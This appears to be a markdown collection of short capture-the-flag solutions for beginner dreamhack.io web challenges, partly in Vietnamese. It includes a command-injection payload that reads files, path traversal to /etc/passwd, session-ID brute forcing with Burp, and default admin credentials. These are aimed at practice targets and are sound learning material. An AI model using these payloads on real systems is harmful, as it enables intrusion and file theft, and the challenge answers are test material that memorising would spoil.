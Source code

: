 # dreamhack.io
## Beginner
### php7cmp4re
```
input1=7.:&inpit2=7:
```
### phpreg
```
step1: input1=dnyanyangng0310&input2=1@43319!+1+13 
step2: cat /../dream/*
```
### ex-reg-ex
```
import re
i = "drabcdde123am@xyz.com"
m = re.match(r'dr\w{5,7}e\d+am@[a-z]{3,7}\.\w+', i)
print(m)
```
### Flying Chars
- Read src for win
### simple-web-request
- Read src and request for win

![image](https://github.com/user-attachments/assets/07441982-8730-4cdc-9491-e224b34fb5e9)

![image](https://github.com/user-attachments/assets/e46ec44a-fb38-41af-b5e5-b6834625743e)

### devtools-sources
- Dont need devtools i need a penguin
```grep -r "DH{" *```
### session

- Ở đây server phân biệt người dùng này với người dùng khác qua session_id. 
- Tuy nhiên độ dài của nó khá ngắn nên chúng ta có thể bf ra được.

![image](https://github.com/user-attachments/assets/4ed8bf4a-4263-49e8-ae56-b7653d5f75f7)

- Mình sẽ dùng brup để bf:

```
GET / HTTP/1.1
Host: host3.dreamhack.games:10491
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US
Referer: http://host3.dreamhack.games:10491/login
Accept-Encoding: gzip, deflate, br
Cookie: sessionid=§i§
Connection: keep-alive
```

![image](https://github.com/user-attachments/assets/f65d445a-37a8-4552-bcba-6c885ca35c5b)

![image](https://github.com/user-attachments/assets/b7f2f260-2c44-427b-8f80-e6d8a63472f4)

### Carve Party
- Click bằng tay đi.
```js
for(i=0; i<=10000; i++){
 $('#jack-target').trigger("click")
}
```
### web-misconf-1
- config quên xóa default password
```
user: admin
pass: admin
```
### command-injection-1
- Server chạy subprocess nhưng không kiểm tra đầu vào của input:
```
ping -c 3 "{input}"
-> input = ";cat *;echo "
-> ping -c 3 ""; cat *; echo ""
```

### file-download-1
- không cần care phần upload đâu, đọc src sẽ thấy ```/read``` bị lỗi path traversal.
```
http://host3.dreamhack.games:24186/read?name=../../../../etc/passwd
tự thêm phần mà bạn muốn đọc vào để solve :v
```
### pathtraversal
- tương tự câu trên nhưng lần này là ở POST data.
```
 const users = {
    'guest': 0,
    'admin': 1
  }
userid=1/../../../api/flag
```
### cookie
```Cookie: sessionid=6c292920; username=admin```
## level 1
